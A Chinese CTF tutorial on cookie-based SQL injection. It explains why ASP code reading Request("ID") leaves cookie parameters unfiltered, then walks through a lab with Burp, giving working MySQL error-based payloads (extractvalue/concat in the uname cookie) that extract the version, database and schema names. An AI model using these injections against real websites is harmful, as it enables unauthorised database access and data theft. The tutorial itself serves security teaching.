



# sql注入之cookie注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、什么是cookie

cookie 是指某些网站为了辨别用户身份而存储在用户本地的终端上的数据(通常经过加密)

简单来说，当浏览器访第一次访问服务器时，服务器发给浏览器一段数据，浏览器讲其保存到本地，以后浏览器每次访问服务器时，都带着这个数据来标明自己的身份。这个数据就是cookie

举一个简单例子：比如一个购物网站xxx.com,用户A第一次访问xxx.com 。服务器段给了用户A一个数据id=1.用户B访问服务器，服务器段给了用户B一个数据id=2.当他们下次访问时，用户A,B带着自己的数据id=1、id=2。服务器段收到这个数据，就会区别出A和B的身份。

## 三、cookie注入

之前我们已经了解过了get和post方法的注入,在asp站点中，有些开发人员,为了方便会将代码简写成

>ID=Request("ID")

此时,web服务器段在接受数据的时候,会接受get,post,cookie中的参数.而一般的程序只过滤get和post方法提交的参数.不过滤cookie中的参数.因此存在注入.

由于某些业务的需求，或者开发人员的疏忽也可可能存在cookie注入。

## 四、赛题地址

>https://t.zsxq.com/mmqVVJi

## 五、实战

1.打开链接

发现是一个登录框，我们在哪里输入admin、admin 发现登录成功，登录成功以后，发现在页面显示的有cookie字样。

我们尝试来修改cookie中的admin值来尝试进行注入。

2.修改数据

我们登录网站以后，用bp抓包然后转到Repeater模块。具体方法再次不在做过多叙述。如果不懂可以看我之前的文章

>https://github.com/xiangbab/web-hack/blob/master/%E4%BA%8CSQL%E6%B3%A8%E5%85%A5/9post%E6%B3%A8%E5%85%A5/%E7%AC%AC%E4%BA%8C%E7%AB%A0%E7%AC%AC%E4%B9%9D%E8%8A%82.md

3.修改cookie值

我们首先在admin后面添加一个'发现其成功报错。

4.开始注入

这里我们采用报错注入的方式进行注入。对于什么报错注入不理解的话可以看一下我之前的文章

>https://github.com/xiangbab/web-hack/blob/master/%E4%BA%8CSQL%E6%B3%A8%E5%85%A5/5%E5%8F%8C%E6%9F%A5%E8%AF%A2%E6%B3%A8%E5%85%A5/%E7%AC%AC%E4%BA%8C%E7%AB%A0%E7%AC%AC%E4%BA%94%E8%8A%82.md

接下来我们介绍另外一种报错方法

先放出exp:

>extractvalue(1,concat(0x7e,(select @@version),0x7e))

关于它为什么会报错可以看这里

>https://www.cnblogs.com/xishaonian/p/6250444.html

5.查询数据库版本

>Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select @@version),0x7e))#

6.查询数据名称

>Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select database()),0x7e))#

7.查询数据库名

>Cookie: uname=admin' and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 1,1),0x7e))#

接下来关于查询表名，和数据的部分不在叙述。相信大家看了之前的文章应该没有什么问题。

## 六、资源推荐

推荐一个sql报错注入的总结：

>https://blog.csdn.net/whatday/article/details/63683187

## 七、CTF赛题

注册账号请在请求内@江江河畔砍柴人

cookie1:https://t.zsxq.com/NZBAQr3

cookie2:https://t.zsxq.com/UNnu7mU (base64)

cookie3:https://t.zsxq.com/urvBmyF (base64)

## 八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

及时获取更多消息，请关注微信订阅号

